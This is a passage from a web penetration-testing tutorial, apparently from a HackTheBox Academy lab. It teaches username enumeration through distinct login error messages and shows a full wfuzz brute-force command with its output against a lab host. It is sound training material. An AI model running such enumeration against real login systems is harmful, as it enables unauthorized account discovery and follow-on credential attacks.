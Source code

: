 When a failed login occurs, and the application replies with "Unknown username" or a similar message, an attacker can perform a brute force attack against the login functionality in search of a, "`The password you entered for the username X is incorrect`" or a similar message. During a penetration test, do not forget to also check for generic usernames such as helpdesk, tech, admin, demo, guest, etc.

[SecLists](https://github.com/danielmiessler/SecLists/tree/master/Usernames) provides an extensive collection of wordlists that can be used as a starting point to mount user enumeration attacks.

Let us try to brute force a web application. We have two ways to see how the web application expects data. One is by inspecting the HTML form, and the other using an intercepting proxy to capture the actual POST request. When we deal with a basic form, there are no significant differences. However, some applications use obfuscated or contrived JavaScript to hide or obscure details. In these cases, the use of an intercepting proxy is usually preferred. By opening the login page and attempting to log in, we can see that the application accepts the `userid` in the `Username` field and the password as `Password`.

![](https://academy.hackthebox.com/storage/modules/80/unknown\_username-burp\_request.png)

We notice that the application replies with an `Unknown username` message, and we guess that it uses a different message when the username is valid.

We can carry out the brute force attack using `wfuzz` and a reverse string match against the response text ( `--hs` "Unknown username," where "`hs`" should be a mnemonic used for string hiding), using a short wordlist from SecLists. Since we are not trying to find a valid password, we do not care about the `Password` field, so we will use a dummy one.

**WFuzz - Unknown Username**

Brute Forcing Usernames

```shell-session
AIceBear@htb[/htb]$ wfuzz -c -z file,/opt/useful/SecLists/Usernames/top-usernames-shortlist.txt -d "Username=FUZZ&Password=dummypass" --hs "Unknown username" http://brokenauthentication.hackthebox.eu/user_unknown.php

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://brokenauthentication.hackthebox.eu/user_unknown.php
Total requests: 17

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000002:   200        56 L     143 W    1984 Ch     "admin"

Total time: 0.017432
Processed Requests: 17
Filtered Requests: 16
Requests/sec.: 975.1927
```
